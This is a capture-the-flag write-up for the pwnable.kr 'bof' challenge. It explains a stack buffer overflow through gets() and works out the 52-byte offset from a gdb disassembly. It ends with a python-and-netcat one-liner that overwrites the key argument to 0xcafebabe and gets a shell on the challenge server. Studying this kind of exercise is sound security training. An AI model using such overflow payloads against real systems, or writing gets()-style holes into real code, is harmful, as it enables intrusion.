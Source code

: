# bof

## Code
In this challenge, we are given:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

## Solution
The goal is to make `0xdeadbeef` to become `0xcafebabe` such that `key == 0xcafebabe` will be true. In order to do that, we have to overflow `gets(overflowme)` so that the stored value of `0xdeadbeef` becomes `0xcafebabe`.

**Step 1: disassemble `func()`**:
```
Dump of assembler code for function func:
   0x8000062c <+0>:	push   ebp
   0x8000062d <+1>:	mov    ebp,esp
   0x8000062f <+3>:	sub    esp,0x48
=> 0x80000632 <+6>:	mov    eax,gs:0x14
   0x80000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x8000063b <+15>:	xor    eax,eax
   0x8000063d <+17>:	mov    DWORD PTR [esp],0x8000078c
   0x80000644 <+24>:	call   0xb7e87770 <puts>
   0x80000649 <+29>:	lea    eax,[ebp-0x2c]
   0x8000064c <+32>:	mov    DWORD PTR [esp],eax
   0x8000064f <+35>:	call   0xb7e86dd0 <gets>
   0x80000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x8000065b <+47>:	jne    0x8000066b <func+63>
   0x8000065d <+49>:	mov    DWORD PTR [esp],0x8000079b
   0x80000664 <+56>:	call   0xb7e5f460 <system>
   0x80000669 <+61>:	jmp    0x80000677 <func+75>
   0x8000066b <+63>:	mov    DWORD PTR [esp],0x800007a3
   0x80000672 <+70>:	call   0xb7e87770 <puts>
   0x80000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x8000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x80000681 <+85>:	je     0x80000688 <func+92>
   0x80000683 <+87>:	call   0xb7f25080 <__stack_chk_fail>
   0x80000688 <+92>:	leave  
   0x80000689 <+93>:	ret    
End of assembler dump.
```

From this block: we know the input arguments is stored at address of `ebp-0x2c`:
```
   0x80000649 <+29>:	lea    eax,[ebp-0x2c]
   0x8000064c <+32>:	mov    DWORD PTR [esp],eax
   0x8000064f <+35>:	call   0xb7e86dd0 <gets>
```

**Step 2: find the address that stores the input arguments**:
```
x $ebp-0x2c
```
Returns:
```
0xbffff2ec:	0x8000073a
```

**Step 3: find the address that stores the `0xdeadbeef`**:

From this line, we can deduce that the memory location of variable `key` is stored at `ebp+0x8`:
```
   0x80000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

Hence, the address is
```
x/wx $ebp+0x8
0xbffff320:	0xdeadbeef
```

**Step 4: perform the overflow***:

So, we have to overflow the stack:
```
-----------------------------
0xbffff320 -> 0xdeadbeef
-----------------------------
.
. // some other data
.
.
-----------------------------
0xbffff2ec -> input arguments
-----------------------------
```

```
echo $((0xbffff320)) - $((0xbffff2ec)) | bc
```

The distance between `0xbffff2ec` and `0xbffff320` is 52 bytes.

So, combining everything:
```
(python -c "print 'A'*52 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
cat flag
```
